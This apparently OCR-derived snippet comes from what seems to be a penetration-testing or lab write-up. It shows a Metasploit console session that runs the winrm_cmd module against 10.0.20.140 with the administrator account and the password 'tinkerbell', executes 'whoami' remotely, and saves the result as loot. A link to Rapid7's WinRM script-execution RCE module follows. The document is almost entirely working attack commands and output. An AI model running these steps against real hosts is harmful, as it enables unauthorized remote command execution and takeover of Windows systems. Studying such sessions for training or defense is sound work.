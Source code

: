 ```
msf5 auxiliary(scanner/winrm/winrm_cmd) > set CMD whoami
CMD => whoami
msf5 auxiliary(scanner/winrm/winrm_cmd) > set PASSWORD tinkerbell
PASSWORD => tinkerbell
msf5 auxiliary(scanner/winrm/winrm_cmd) > set RHOSTS 10.0.20.140
RHOSTS => 10.0.20.140
msf5 auxiliary(scanner/winrm/winrm_cmd) > set USERNAME administrator
USERNAME => administrator
msf5 auxiliary(scanner/winrm/winrm_cmd) > run

[+] 10.0.20.140:5985     : server\administrator

[+] Results saved to /root/.msf4/loot/20220917210947_default_10.0.20.140_winrm.cmd_result_789998.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/winrm/winrm_cmd) > 
```

[WinRM Script Exec Remote Code Execution](https://www.rapid7.com/db/modules/exploit/windows/winrm/winrm_script_exec/)


```

```

